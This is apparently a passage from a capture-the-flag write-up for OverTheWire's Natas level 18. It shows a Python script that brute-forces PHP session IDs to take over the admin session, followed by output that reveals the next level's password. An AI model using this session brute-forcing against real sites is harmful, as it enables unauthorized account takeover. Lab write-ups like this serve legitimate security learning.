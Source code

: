 ## Scripting
With the previous analysis done, we now have an idea of what to do. If we can find the session ID of the admin (between 0 and 640), we should be able to be logged in as the admin. Let's brute force it in python:

```python
#!/bin/python3
import requests

user = 'natas18'
passwd = 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'
target = 'http://natas18.natas.labs.overthewire.org'

for i in range(641):
    r = requests.get(
    	target,
    	auth=(user, passwd),
    	cookies={'PHPSESSID': str(i)}
    	)
    print("[REQUEST] PHPSESSID=%s" % i)
    if 'You are an admin' in r.text:
        print(r.text)
        break
```

Below is the output:
~~~
$ python findsession.py 
[REQUEST] PHPSESSID=0
[REQUEST] PHPSESSID=1
[REQUEST] PHPSESSID=2
[REQUEST] PHPSESSID=3
[REQUEST] PHPSESSID=4
[REQUEST] PHPSESSID=5
[REQUEST] PHPSESSID=6
[REQUEST] PHPSESSID=7
...
[REQUEST] PHPSESSID=115
[REQUEST] PHPSESSID=116
[REQUEST] PHPSESSID=117
[REQUEST] PHPSESSID=118
[REQUEST] PHPSESSID=119
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas18", "pass": "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP" };</script></head>
<body>
<h1>natas18</h1>
<div id="content">
You are an admin. The credentials for the next level are:<br><pre>Username: natas19
Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs</pre><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
~~~
